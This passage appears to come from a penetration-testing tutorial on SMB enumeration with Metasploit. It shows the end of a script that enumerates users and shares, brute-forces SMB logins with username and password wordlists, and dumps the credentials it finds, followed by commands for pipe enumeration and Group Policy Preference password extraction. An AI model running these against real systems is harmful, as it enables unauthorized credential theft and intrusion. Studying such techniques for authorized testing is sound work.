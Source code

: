 ```bash
use auxiliary/scanner/smb/smb_enumusers;
run;

echo '[+] Enumerating SMB shares';
use auxiliary/scanner/smb/smb_enumshares;
set ShowFiles true;
run;

echo '[+] Performing brute force attack';
use auxiliary/scanner/smb/smb_login;
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt;
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt;
set STOP_ON_SUCCESS true;
set THREADS 5;
run;

echo '[+] SMB enumeration complete';
hosts;
services;
credentials;
exit" > $OUTPUT_DIR/full_report.txt

echo "[+] Comprehensive report saved to $OUTPUT_DIR/full_report.txt"
```

**Usage**:

```bash
chmod +x smb_complete_enum.sh
./smb_complete_enum.sh 192.168.1.100
```

## Advanced SMB Enumeration Techniques

### SMB Security Mode Detection

```bash
msf6 > use auxiliary/scanner/smb/smb_security_mode
msf6 auxiliary(scanner/smb/smb_security_mode) > run
```

### Pipe Enumeration

```bash
msf6 > use auxiliary/scanner/smb/smb_enum_pipes
msf6 auxiliary(scanner/smb/smb_enum_pipes) > run
```

### Group Policy Preference Extraction

```bash
msf6 > use auxiliary/scanner/smb/smb_enum_gpp
msf6 auxiliary(scanner/smb/smb_enum_gpp) > run
```
